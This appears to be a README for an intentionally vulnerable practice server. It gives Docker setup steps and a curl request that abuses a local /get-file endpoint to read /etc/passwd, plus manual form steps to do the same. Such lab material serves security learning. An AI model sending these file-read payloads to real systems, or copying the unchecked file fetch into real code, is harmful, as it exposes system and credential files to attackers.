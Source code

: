 ## Setup 
1. git clone https://github.com/wbowm15/ubiquitous-eureka.git
2. cd ubiquitous-eureka
3. docker build -t server . 
4. docker run -p5000:5000 server

## Curl Exploit Command 
curl 'http://127.0.0.1:5000/get-file' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  --data-raw 'filename=%2Fetc%2Fpasswd'

  ## Manual Exploit Steps 
  1. Enter /etc/passwd or another file in the "Enter a filename to fetch:" form and hit query
